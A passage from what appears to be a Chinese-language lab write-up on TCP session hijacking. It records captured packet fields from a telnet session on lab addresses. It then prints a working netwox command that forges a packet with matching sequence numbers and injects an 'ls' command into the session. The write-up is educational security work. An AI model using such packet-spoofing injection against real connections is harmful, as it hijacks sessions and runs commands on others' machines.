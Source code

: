 包内信息：

ip4-src 10.9.0.2

ip4-dst 10.9.0.3

tcp-src 23

tcp-dst 41768

tcp_seqnum 4174647762 

tcp_acknum 1141611836

tcp-window 501

构造client发出新的包：

ip4-src 10.9.0.3

ip4-dst 10.9.0.2

tcp-src 41768

tcp-dst 23

tcp_seqnum 1141611836

tcp_acknum 4174647762 + 21 = 4174647783

tcp-window 501

netwox指令：

```bash
sudo netwox 40 --ip4-src 10.9.0.3 --ip4-dst 10.9.0.2 --tcp-src 41768 --tcp-dst 23 --tcp-seqnum 1141611836 --tcp_acknum 4174647783 --tcp-ack --tcp-window 501 --tcp-data "6c730d00"

```

运行该指令

![image-20230417223946844](assets/image-20230417223946844.png)
